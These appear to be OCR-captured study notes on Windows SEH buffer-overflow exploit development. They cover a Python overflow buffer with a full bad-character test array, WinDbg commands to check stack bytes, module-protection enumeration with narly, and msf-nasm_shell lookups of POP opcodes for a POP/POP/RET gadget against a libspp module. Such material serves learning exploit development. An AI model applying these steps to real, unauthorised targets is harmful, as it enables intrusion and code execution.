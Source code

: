   badchars = (
    b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d"
    b"\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a"
    b"\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27"
    b"\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34"
    b"\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41"
    b"\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e"
    b"\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b"
    b"\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68"
    b"\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75"
    b"\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82"
    b"\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
    b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c"
    b"\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9"
    b"\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6"
    b"\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3"
    b"\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
    b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd"
    b"\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea"
    b"\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7"
    b"\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

  inputBuffer = b"\x41" * 128
  inputBuffer+= b"\x42\x42\x42\x42"
  inputBuffer+= badchars
  inputBuffer+= b"\x43" * (size - len(inputBuffer))


Then to check for bachars we can dump the bytes from esp, we know it'll be 0x08 from the esp:

	dds esp L5
	db 0132ff54

Finding a P/P/R Instruction Sequence

Can load narly to search for all loaded modules and their respective protections
	.load narly
	
Run nmod to look for them:
	!nmod

We are going to use the libspp module for this, so let's look for it's memory address range:
	lm m libspp
	
Using msf-nasm_shell to look at all pop instructions:
	kali@kali:~$ msf-nasm_shell 
	nasm > pop eax
	00000000  58                pop eax
	
	nasm > pop ebx
	00000000  5B                pop ebx
	
	nasm > pop ecx
	00000000  59                pop ecx
	
	nasm > pop edx
	00000000  5A                pop edx
	
